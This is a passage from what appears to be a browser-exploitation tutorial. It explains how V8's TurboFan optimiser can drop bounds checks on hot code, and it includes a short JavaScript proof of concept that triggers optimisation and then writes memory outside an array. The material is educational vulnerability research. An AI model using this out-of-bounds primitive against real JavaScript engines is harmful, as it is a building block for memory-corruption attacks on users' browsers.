 Basically, a code will be executed with **interpreter \(**_**Ignition**_**\)** by default, and V8 will keep track of how many times the code segments are executed. If the code segments are executed many times \(hot code segments\), the code segments will be compiled with a **compiler \(**_**TurboFan**_**\)**. In this compilation, optimisations will be applied, thus producing a faster execution time.

![](../../.gitbook/assets/image%20%2813%29.png)

Therefore, to make the optimiser remove the bounds-checking, we may need to run the function a lot of times before, thus triggering the JS engine to compile and optimise our `fun` function, eliminating the bounds checking.

```javascript
function fun(arg) {
	let x = new Array('x')
	let y = new Array('y')
	x[(arguments.length >> 16) * 3] = 'ehe'
	return y
}

for (let i = 0; i < 10000; i++) fun(1) // trigger optimization

args = []
args.length = 65537
console.log(fun(...args)) // output: ["ehe"]
```

Now, we can see from the output of the above code that we are able to write memory outside array _x_.
